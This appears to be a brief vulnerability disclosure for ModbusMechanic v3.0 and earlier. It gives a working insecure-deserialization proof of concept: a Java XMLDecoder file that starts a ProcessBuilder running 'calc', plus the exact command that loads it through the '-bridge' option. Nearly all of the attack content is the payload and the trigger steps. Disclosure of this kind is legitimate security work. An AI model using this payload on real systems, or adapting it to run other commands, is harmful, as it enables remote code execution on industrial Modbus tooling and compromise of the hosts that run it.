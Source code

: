 # ModbusMechanic V3.0 Insecure Deserialization & RCE
Affected Version: <= v3.0(latest release version)

Application: [Here](https://github.com/SciFiDryer/ModbusMechanic/releases/tag/v3.0)



## Insecure Deserialization Vulnerability
```php
<java>
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="1" >
            <void index="0">
                <string>calc</string>
            </void>
        </array>
        <void method="start"/>
    </object>
</java>
```
Save the above code as PoC.xml file and put it in the project directory. Use the command "java 
-jar ModbusMechanic.jar -bridge PoC.xml" to start the jar package to trigger the vulnerability.



## Exploit

![image-20241024094827349](img/image-20241024094827349.png)